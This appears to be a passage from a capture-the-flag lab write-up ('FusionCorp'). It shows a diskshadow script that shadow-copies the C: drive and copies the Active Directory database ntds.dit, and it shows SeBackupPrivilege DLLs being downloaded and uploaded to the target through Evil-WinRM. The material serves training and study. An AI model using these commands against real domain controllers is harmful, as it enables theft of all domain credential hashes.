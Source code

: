 <br>

<h3>este.txt</h3>


```bash
:~/FusionCorp# cat este.txt
set context persistent nowriters #
set metadata c:\tmp\metadata.cab #
add volume c: alias myAlias #
create #
expose %myAlias% x: #
exec "cmd.exe" /c copy x:\windows\ntds\ntds.dit c:\tmp\ntds.dit #
delete shadows volume %myAlias% #
reset #
```

```bash
*Evil-WinRM* PS C:\tmp> upload este.txt
```

```bash
*Evil-WinRM* PS C:\tmp> diskshadow /s este.txt
```

<img width="1729" height="750" alt="image" src="https://github.com/user-attachments/assets/2424621b-61e2-4315-863a-de5b5c814e7a" />


<br>

<h3><code>SeBackupPrivilegeUtils.dll</code>, <code>SeBackupPrivilegeCmdLets.dll</code></h3>

<p>

- https://github.com/giuliano108/SeBackupPrivilege/ <br> <img width="1853" height="858" alt="image" src="https://github.com/user-attachments/assets/00623c02-88cf-4c27-9c13-d9f23c4dced9" />
</p>

<br>

```bash
:~/FusionCorp# wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll
```

<br>

```bash
:~/FusionCorp# wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
```

<br>


```bash
*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeUtils.dll
                                        
Info: Uploading /root/FusionCorp/SeBackupPrivilegeUtils.dll to C:\tmp\SeBackupPrivilegeUtils.dll
                                        
Data: 21844 bytes of 21844 bytes copied
                                        
Info: Upload successful!
```
